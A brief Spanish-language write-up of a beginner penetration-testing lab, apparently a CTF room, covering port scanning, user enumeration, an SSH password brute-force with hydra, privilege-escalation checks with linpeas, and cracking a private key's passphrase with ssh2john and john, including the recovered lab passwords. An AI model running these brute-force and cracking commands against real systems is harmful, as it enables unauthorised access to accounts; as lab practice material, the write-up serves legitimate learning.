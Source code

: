 # Sala de penetracion basica

# scan

port importants open

22,80,139,445

se trata de una maquina linux, utilizamos enum4linux para ver algunos detalles

usuarios encontrados
jan
kay

probamos encontrar su password

hydra -l jan -P /opt/rockyou.txt ssh://10.10.184.105

resulto: armando

Utilizamos linpeas para ver alguna forma de escalar privilegios

encontramos una clave ssh perteneciente a kay

esta tiene una parafrase

la crackeamos con:

convertimos la clave en formato para johntheripper

`python2.7 /usr/share/john/ssh2john.py kay_id_rsa > forjonh.txt`

crack!

`john forjonh.txt --wordlist=/opt/rockyou.txt`

result:beeswax

ingresamos con ese usuario y tenemos la bandera